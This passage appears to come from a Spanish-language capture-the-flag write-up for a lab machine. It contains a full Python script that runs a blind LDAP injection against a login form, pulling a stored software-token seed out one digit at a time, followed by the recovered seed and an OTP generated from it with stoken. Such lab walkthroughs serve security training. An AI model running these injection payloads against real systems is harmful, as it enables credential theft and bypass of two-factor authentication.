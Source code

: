 ```null
catr ldi.py
#!/usr/bin/python3

from pwn import *
import requests, pdb, time, signal, sys, string

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://10.10.10.122/login.php"
digits = string.digits

def makeRequest():

    token = ""
    p1 = log.progress("Token")

    for position in range(0, 81):
        for digit in digits:
            post_data = {
                'inputUsername': f'ldapuser%29%28pager%3d{token}{digit}%2a%29%29%29%00',
                'inputOTP': '123'
            }

            r = requests.post(main_url, data=post_data)
            time.sleep(0.5)

            if "Cannot login" in r.text:
                token += digit
                p1.status(token)
                break


if __name__ == '__main__':
    makeRequest()
```

Lo ejecuto y obtengo el valor

```null
python3 ldi.py
[┴] Token: 285449490011357156531651545652335570713167411445727140604172141456711102716717000
```

Utilizo ```stoken``` para obtener un OTP en base al tiempo

```null
stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000
Enter PIN:
PIN must be 4-8 digits.  Use '0000' for no PIN.
Enter PIN:
32661804
```
